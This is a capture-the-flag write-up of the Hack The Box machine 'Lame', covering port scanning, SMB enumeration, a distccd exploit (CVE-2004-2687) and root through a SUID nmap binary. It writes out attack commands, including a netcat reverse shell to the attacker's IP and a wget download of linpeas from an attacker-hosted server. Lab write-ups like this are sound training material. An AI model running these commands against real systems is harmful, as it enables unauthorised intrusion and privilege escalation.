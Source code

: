 # HTB_Writeups - Lame

Started off with a nmap scan.
nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3
TEs3
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.

We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.
But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.
 

 

 
I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users.
 

 
we can see that tmp is READ, WRITE. Lets login and see what we can find.
I use smbclient \\\\10.10.10.3\\tmp and we get a hit. I use ls to see what we can find. Unfortunately there is nothing here either. We could use
put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.
 

 
I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1
I go to google and search for "distccd v1 exploit" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.
 
Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py
the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command
./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried.
python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. Next up,
python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell!
 

 

 
Let's upgrade the shell. I used the following.
python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work.
export TERM=xterm
stty raw -echo && fg
enter
enter
 
We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on.
I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag.
 

 

 
Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.
I use python3 -m http.server 80 get the server up and running.
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file.
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.
 


 

 
the /usr/bin/nmap suid
I head over to https://gtfobins.github.io/ and search for nmap
I cd /usr/bin where the suid is located.
I start off with shell code (a) and nothing happened. So I keep going down the list.
Shell (b) worked!
 

 
we can now cd /root and see what is there which is the root.txt flag!
we have successfully rooted this box!
 
